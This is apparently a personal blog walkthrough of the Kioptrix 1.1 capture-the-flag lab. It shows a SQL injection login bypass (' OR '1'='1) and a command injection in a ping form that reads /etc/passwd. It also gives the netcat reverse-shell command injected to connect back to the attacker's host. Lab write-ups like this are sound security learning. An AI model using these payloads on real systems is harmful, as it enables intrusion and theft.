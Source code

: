 ```yaml
---
layout: post
title: Kioptrix 1.1 Walkthrough
---
```

Kioptrix level 1 is under my belt and its time to move on to the next challenge labled "Kioptrix 1.1". I use netdiscover to find the ip of the new target Kioptrix 1.1. 

![Image description](/images/kioptrix1.2.1.png)

The ip of our vulnerable virtual machine is 172.16.158.129. I needed to gather more information about the virtual machine so I used nmap to do a basic scan. 

![Image description](/images/kioptrix1.2.2.png)

Right away I noticed multiple interesting ports to explore. I decided to start with port 80 and I opened up my web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. I am greeted with a login form. 

![Image description](/images/kioptrix1.2.3.png)

I was able to get in with a simple SQL injection.

Login: Admin
Password: ' OR '1'='1

I was then brought to a form that allows you to ping a mahine on the network. I tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

I was able to display the contents of /etc/passwd for later use. However, I still needed to obtain root. I decided to see if I could obtain a shell in a similar way that I displayed /etc/passwd. I set up netcat to listen for any connects on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform and obtained a shell. 

![Image description](/images/kioptrix1.2.5.png)

